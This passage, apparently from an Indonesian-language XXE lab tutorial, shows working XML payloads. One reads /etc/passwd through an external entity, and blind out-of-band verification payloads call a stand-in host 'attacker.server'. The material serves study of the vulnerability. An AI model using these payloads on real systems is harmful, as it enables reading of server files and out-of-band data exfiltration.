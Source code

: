 **Payload :**

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root>
<name>test</name>
<tel>082</tel>
<email>&file;</email>
<password>pwd</password>
</root>
```

![](https://i.imgur.com/9iyEhwt.png)

### Blind XXE - Out Of Band XXE

Seperti namanya `blind` yang berarti hasil parsing atau data nya tidak akan ditampilkan, untuk melihat datanya harus dilakukan `exfiltration` sehingga data tersebut bisa dilihat/dibaca.

Untuk lab blind xxe masih tetap menggunakan xxelab, tetapi source nya sedikit dirubah, yaitu pada bagian `echo` dihapus sehingga hasil nya tidak terlihat.

```php
echo "Sorry, $email is already registered!";
```

### Blind XXE Verification

Sebelum asal melakukan blind xxe injection, ada baiknya melakukan verifikasi terlebih dahulu, apakah web ini benar vulnerable blind xxe atau tidak. Untuk memverifikasi cukup mudah karena hanya tinggal menggunakan external entity dengan wrapper atau protokol yang mendukung remote source seperti http, ftp ataupun protokol lainnya sesuai dengan keadaan environment yang digunakan target \(karena beberapa protokol/wrapper tidak enable by default dan juga ada wrapper yang hanya bekerja pada bahasa pemrograman tertentu saja tertentu saja\).

**Payload Verfication :**

```markup
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>test</email>
<password>pwd</password>
</root>
```
